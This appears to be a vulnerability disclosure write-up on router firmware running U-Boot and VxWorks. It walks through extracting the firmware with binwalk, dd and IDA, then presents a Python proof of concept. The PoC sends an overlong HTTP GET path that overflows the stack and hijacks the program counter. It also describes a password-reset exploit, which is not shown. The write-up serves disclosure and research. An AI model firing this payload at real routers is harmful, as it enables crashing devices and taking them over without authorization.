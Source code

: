 ### Analysis

Use binwalk to analyze the firmware.
```
$ binwalk ./MX25L8005_20230813_224125.BIN
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
13664         0x3560          U-Boot version string, "U-Boot 1.1.4 (Aug 28 2014 - 18:04:52)"
13712         0x3590          CRC32 polynomial table, big endian
14996         [0x3A94]          uImage header, header size: 64 bytes, header CRC: 0xEBE5C5A2, created: invalid timestamp, image size: [37958] bytes, Data Address: 0x80010000, Entry Point: [0x80010000], data CRC: 0x9BE8162C, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"
15060         0x3AD4          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 100568 bytes
61440         0xF000          IMG0 (VxWorks) header, size: 794144
61568         0xF080          Wind River management filesystem, compressed, 165 files
69532         0x10F9C         LZMA compressed data, properties: 0x5A, dictionary size: 8388608 bytes, uncompressed size: 10345 bytes
...
```
We can see that there is a uimage with a header at 0x3A94, a uImage (uboot image) of size 37958, and a loaded address of 0x80010000, and processor architecture mips (big endian). So we dump the uboot and decompress it.
```
$ dd if=MX25L8005_20230813_224125.BIN of=uboot.bin.lzma $ $ bs=1 skip=$((0x3A94 + 64)) count=37958
$ lzma -d ./uboot.bin.lzma
```

Using IDA to analyze uboot.bin
```
a. 
  IDA -> mips big endian
b.
  load address = 0x80010000
  rom address = 0x80010000
c.
  IDA -> Options -> General -> Analysis -> Processor specific analysis options -> $gp value = 0x800282D0
d.
  import idc
  for ea in range(0x800282D0, 0x800288D7, 4):
    idc.del_items(ea)
    idc.create_dword(ea)
``` 
![](./img/1.png)
Reverse uboot.bin to analyze the location of the vxwork firmware.
![](./img/2.png)
Then dump the vxwork firmware.
```
$ dd if=MX25L8005_20230813_224125.BIN of=vxworks.bin.lzma bs=1 skip=$((0x4a680)) count=$((0x8671d))
$ lzma -d ./vxworks.bin.lzma
```
Reverse and analyze vxworks.bin then dig for vulnerabilities.


### Bug

The reason for the vulnerability is that when going to the file system to fetch a file, an overflow can occur when the file path is too long. The overflow overwrites the PC value.

Proof of concept
```
import socket
import struct

from socket import htonl, htons

PORT = 80
IP   = "192.168.1.1"
p32  = lambda n   : struct.pack('>I', n)

io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((IP, PORT))
request = b'' \
+ b'GET /login/' + b'A'*0x109 + p32(0x12345678) + b'/arc.gif HTTP/1.1\r\n' \
+ b'Host: 192.168.1.1\r\n' \
+ b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36\r\n' \
+ b'\r\n'
io.send(request)
io.recv(4096)
io.close()
```

Running this Poc, the router Crash and is hijacked to 0x12345678. this suggests that the excessively long file path triggered a stack overflow.

![](./img/3.png)


### Attack

Construct a utilization script that changes the value of the password in memory to admin (the default), triggering the router to reset the password.

[Attack vedio](./attack.mp4)
